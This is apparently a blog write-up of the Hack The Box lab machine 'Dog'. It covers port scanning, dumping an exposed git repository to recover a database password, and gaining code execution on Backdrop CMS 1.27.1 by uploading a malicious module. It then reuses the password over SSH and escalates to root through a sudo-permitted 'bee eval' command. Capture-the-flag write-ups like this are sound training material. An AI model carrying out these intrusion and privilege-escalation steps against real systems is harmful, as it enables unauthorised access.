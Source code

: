```yaml
---
title: HTB Dog - Writeup
date: 2025-05-20 20:03:00 +0330
categories: [Writeup]
tags: []
description: My writeup of Dog from Hack The Box 

---
```


![](assets/img/dog.png)

## - **Recon & Enum**
Starting off by scanning for open ports.
```shell
$ nmap -sC -sV -oN dog_nmap --min-rate=100 10.10.11.58
```
```
Nmap scan report for 10.10.11.58
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Right off the bat Nmap found the git repository, we can dump it with `git-dumper`
```shell
$ git-dumper http://10.10.11.58 dog_git
```
Searching in the dumped repo, there is a `settings.php` file which included the following line.
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
```
I tested the password with user `dogBackDropSystem`, but no success. Lokking around, in the `about` page, we can see an email address `support@dog.htb`, so I checked the dumped repo and found another user.

```shell
$ grep -r @dog.htb
```
```
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000   commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000      commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
```
And that was it, we logged in as `tiffany` with the password `BackDropJ2024DS2024`.
## - **Foothold**
From the [status report](http://10.10.11.58/?q=admin/reports/status) page, we learn the version of Backdrop CMS running `1.27.1`. We can create a module with payload inside and upload it.  
more info: [exploit-db](https://www.exploit-db.com/exploits/52021).  

```shell
$ ls titap/
titap.info  titap.php
$ tar -cf titap.tar titap
$ gzip titap.tar
```

![](assets/img/dog_titap.png)

After we have installed the module, we can call the payload via `/modules/titap/titap.php`

```
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@dog:/$ ls
ls
backdrop_tool  dev   lib    libx32      mnt   root  srv  usr
bin            etc   lib32  lost+found  opt   run   sys  var
boot           home  lib64  media       proc  sbin  tmp
www-data@dog:/$
```

## - **User**
```
www-data@dog:/$ cat /etc/passwd | grep sh$
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```
Tried the password we got earlier with both users and `johncusack` logged in. It couldn't be any easier! My beloved SSH, here I come!
```
johncusack@dog:~$ cat user.txt  
b759951e9**************c8a2e126a
```

## - **Root**

```
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Sorry, try again.
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

The `bee` binary has a command `eval` which allows us to run php code.

>The `eval` command only works inside the BackdropCMS root directory.
{: .prompt-info }

```
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee eval "system(bash)"

 ⚠ Warning: Use of undefined constant bash - assumed 'bash' (this will throw an Error in a future version of PHP)
in eval() (line 1 of /backdrop_tool/bee/commands/php.bee.inc(51) : eval()'d code).

root@dog:/var/www/html#
```

And here is the flag.

```
root@dog:~# cat root.txt 
b28fdc30b**************224a601bc 
```
![](assets/img/dog_congrats.png)
Done!
Thanks for reading!